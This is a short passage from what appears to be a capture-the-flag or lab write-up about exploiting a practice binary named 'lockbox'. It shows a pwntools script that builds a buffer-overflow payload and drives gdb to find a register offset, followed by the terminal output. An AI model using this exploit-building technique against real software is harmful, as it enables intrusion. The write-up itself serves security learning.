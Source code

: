 I think I can use my pattern matching here too!
It is the first part of the payload:
```python
def keyPld():
	base = b"".join([struct.pack("B", 0x41) for i in range(0,16)])
	data = b"".join([struct.pack("B", 0x50), struct.pack("B", 0x40), struct.pack("B", 0x40), struct.pack("B", 0x00)])
	pad0 = b"".join([struct.pack("B", 0x00) for i in range(0,4)])
	pad48 = cyclic(48)
	win = b"".join([struct.pack("B", 0xb6), struct.pack("B", 0x11), struct.pack("B", 0x40), struct.pack("B", 0x00)])
	return base + data + pad0 + pad48 + win + pad0

def keyOffset():
	p =  process('/bin/bash')
	p.sendline('gdb ./lockbox -q')
	p.sendline("break *0x00000000004011ce")
	p.sendline("r")
	d = p.recvuntil(">")
	pld = keyPld()
	print(pld)
	p.sendline(pld)
	p.recvuntil("Breakpoint")
	p.recvuntil("(gdb) ")
	p.sendline("info registers eax")
	#p.recv()
	#p.recv(timeout=0.05)
	ln = cleanLine(p.recv())
	print(ln)
	l = re.split("\s+", ln)
	d = re.split("x", l[1])
	n = 2
	a = d[1]
	byt = [a[i:i+n] for i in range(0, len(a), n)]
	#print(byt)
	bytes = b"".join(struct.pack("B", int("0x"+byt[i], 16)) for i in range(0,4))
	print(str(bytes))
	#print("eax = " + d[1])
	eax = bytes
	eOffset = cyclic_find(eax)
	info("eax offset = %d", eOffset)
	p.close()
```
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 newdbg.py
[+] Starting local process '/bin/bash': pid 90949
b'AAAAAAAAAAAAAAAAP@@\x00\x00\x00\x00\x00aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa\xb6\x11@\x00\x00\x00\x00\x00'

eax            0x61616161          1633771873
(gdb) 
b'aaaa'
[*] eax offset = 0
[*] Stopped process '/bin/bash' (pid 90949)
```
